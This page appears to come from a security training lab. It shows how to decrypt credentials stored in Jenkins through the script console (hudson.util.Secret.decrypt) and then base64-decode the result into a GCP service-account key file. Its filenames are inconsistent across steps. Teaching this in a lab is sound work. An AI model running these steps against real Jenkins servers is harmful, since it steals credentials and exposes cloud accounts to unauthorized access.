 ```yaml
---
title: Jenkins Decrypt
weight: 23
---
```


Now that we're in Jenkins, we'll look a bit around.

# Explore Secrets

As we can see, there are predefined secrets. Some of them are maybe used for Terraform. Why not decrypt them!

Let's first get the secret:
{{% expand "Solution" %}}
Open the following url:

```bash
<http://jenkins.test.nevervictimconsult.xyz/script>
```

Then start the following script:

```bash
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

Where ${ENCRYPTED_PASSPHRASE_OR_PASSWORD} is the encrypted content of the <password> or <passphrase> XML element that you are looking for.

 In order to get the password value of ${ENCRYPTED_PASSPHRASE_OR_PASSWORD} go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

{{% /expand %}}

Now guess what you've just got. It is the base64 encoded json string for authenticating to GCP!

We still need to decrypt it of course:

{{% expand "Solution" %}}

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encoded.json
```

Paste the string into encrypted.json. and decode it then:

```bash
cd /root/demotalk/cloudAccess
cat encode.json | base64 --decode > gcpSa.json
```

{{% /expand %}}

Congratulations, you have just leaked a secret to authenticate to GCP!
